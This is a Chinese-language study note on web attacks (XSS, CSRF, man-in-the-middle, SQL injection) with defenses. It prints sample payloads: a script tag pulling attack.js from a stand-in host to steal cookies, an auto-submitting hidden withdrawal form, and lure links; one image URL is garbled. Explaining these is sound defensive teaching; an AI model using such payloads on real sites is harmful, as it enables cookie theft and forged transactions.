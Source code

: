 # 概览

- **XSS**：XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
- **CSRF**: CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
- **中间人攻击**：是指攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改。
- **SQL注入**：SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。


# XSS
>  Cross Site Scripting（跨站脚本攻击） 是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式，又叫跨域脚本。常见类型有：反射型（非持久性）存储型（持久性）DOM 型

同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信。

支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。



### 类型
#### 反射型（非持久性）  
原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：  
**通过 URL 插入恶意代码。**  
**有服务端参与。**   
**需要用户访问特定链接。**  

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的Cookie 等）。

#### 存储型（持久性）  
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：  
**恶意代码存储在目标网站服务器上。**  
**有服务端参与。**   
**只要用户访问被注入恶意脚本的页面时，就会被攻击。** 

例子：  
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM 型  
原理：  
攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。  

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

要点：  
在客户端发生。

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

#### 总结
存储型 XSS： 持久化，代码是存储在服务器中的

反射型 XSS： 非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面

基于 DOM 的 XSS： 不经过后端，纯粹发生在客户端的攻击，属于前端 JavaScript 自身的安全漏洞

### 防范 XSS  
- 对于外部传入的内容进行充分转义。
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。

# Cross-site request forgery(CSRF)

### 案例
一个真实的案例：用户 David 在自己邮箱内点击了黑客恶意伪装的链接。黑客在点击的链接里冒充用户(cookie)向 Gmail 服务器发送邮件自动转发请求，导致 David 的邮件都被自动转发到了黑客的邮箱，从而被黑客利用盗取了用户数据。

### 原理
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 要点：
- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

### CSRF 常见的攻击方式与防护策略
常见的攻击方式：  
* 自动发起 GET 请求的 CSRF
* 自动发起 POST 请求的 CSRF
* 引诱用户点击链接的 CSRF

1. 自动发起 Get 请求  
GET类型的CSRF利用非常简单，只需要一个HTTP请求，一般会这样利用：
```
 ![](https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker)
```
在受害者访问含有这个img的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次HTTP请求。bank.example就会收到包含受害者登录信息的一次跨域请求。

2. 自动发起 POST 请求  
这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```html
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。  
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

3. 引诱用户点击链接  
链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
```html
  <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
  <a/>
```
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。


CSRF 攻击的两个必要条件：  

**1. 目标站点一定要有 CSRF 漏洞；**  
**2. 诱导用户从目标网站，打开一个第三方站点。**

CSRF通常从第三方网站发起，被攻击的网站无法防止攻击发生，只能通过增强自己网站针对CSRF的防护能力来提升安全性。

上文中讲了CSRF的两个特点：

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。
针对这两点，我们可以专门制定防护策略，如下：

* 阻止不明外域的访问
  * 同源检测
  * Samesite Cookie
* 提交时要求附加本域才能获取的信息
  * CSRF Token
  * 双重Cookie验证
### 防范：

1. 使用 **CSRF Token** 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
2. **双重 Cookie 验证**
原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
优点：无需使用 Session，不会给服务器压力。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。(**SameSite Cookie**)
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
**设置为 Lax 或者 Strict，禁止发送第三方 Cookie。**
5. 设置白名单，仅允许安全域名请求
6. 增加验证码验证

# 中间人攻击（MITM）
> 中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

### 中间人攻击防范  
* 对于开发者来说：
  * 支持 HTTPS。
  * 开启 HSTS 策略。
* 对于用户来说：
  * 尽可能使用 HTTPS 链接。
  * 避免连接不知名的 WiFi 热点。
  * 不忽略不安全的浏览器通知。
  * 公共网络不进行涉及敏感信息的交互。
  * 用可信的第三方 CA 厂商，不下载来源不明的证书。

# SQL注入
### 案例
一般我们提交的表单数据（未经过滤的情况下）都会拼接到 SQL 查询语句中的，就例如：
```sql
SELECT * FROM users WHERE name='aaa'
```
其中 name 的参数就是从表单中传过来的数据，如果传的参数是一条 SQL 语句，那么就可能骗过了 SQL 数据库，从而执行了一段恶意的代码，达到了攻击效果。

### 防范
* 把应用服务器的数据库权限降至最低，尽可能地减少 SQL 注入攻击带来的危害。

* 避免网站打印出SQL错误信息，比如类型错误、字段不匹配等，把代码里的SQL语句暴露出来，以防止攻击者利用这些错误信息进行SQL注入。

* 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。

* 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。

* 在测试阶段，建议使用专门的 SQL 注入检测工具进行检测。网上有很多这方面的开源工具，例如sqlmap、SQLninja等。

* 善用数据库操作库，有些库包可能已经做好了相关的防护，只需阅读其文档，看是否支持相应的功能即可。
